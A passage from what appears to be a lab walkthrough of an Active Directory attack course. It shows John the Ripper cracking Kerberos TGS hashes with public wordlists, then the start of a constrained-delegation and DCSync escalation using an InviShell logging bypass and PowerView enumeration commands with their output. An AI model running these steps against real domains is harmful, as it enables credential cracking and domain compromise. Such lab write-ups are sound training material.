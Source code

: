 `john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt ./krb5tgs_hashes.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:11 DONE (2025-03-11 08:34) 0g/s 1245Kp/s 1245Kc/s 1245KC/s  0841079575..*7¡Vamos!
Session completed.
```
❌

`john --format=krb5tgs --wordlist=/usr/share/seclists/Passwords/xato-net-10-million-passwords.txt ./krb5tgs_hashes.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:04 DONE (2025-03-11 08:35) 0g/s 1265Kp/s 1265Kc/s 1265KC/s !Music11..!!!!!!55
Session completed.
```
❌

#### Domain Privilege Escalation | Constrained Delegation + DCSync (with PowerView, Rubeus, SafetyKatz)

- **Find a Target User where Constrained Delegation is Enabled**

**Constrained Delegation - Users**

![studvm | studentuser](https://custom-icon-badges.demolab.com/badge/studvm-studentuser-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\PowerView.ps1`

`Get-DomainUser -TrustedToAuth`:
```
```
❌

- **Find a Target Server where Constrained Delegation is Enabled**

**Constrained Delegation - Computers**

![studvm | studentuser](https://custom-icon-badges.demolab.com/badge/studvm-studentuser-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\PowerView.ps1`

`Get-DomainComputer -TrustedToAuth`:
```
[SNIP]

pwdlastset                    : 3/11/2025 7:10:31 AM
logoncount                    : 53
badpasswordtime               : 2/4/2022 2:55:13 AM
distinguishedname             : CN=STUDVM,CN=Computers,DC=tech,DC=finance,DC=corp
objectclass                   : {top, person, organizationalPerson, user...}
lastlogontimestamp            : 3/11/2025 6:57:17 AM
whencreated                   : 2/2/2022 7:13:14 AM
samaccountname                : STUDVM$🖥️
localpolicyflags              : 0
```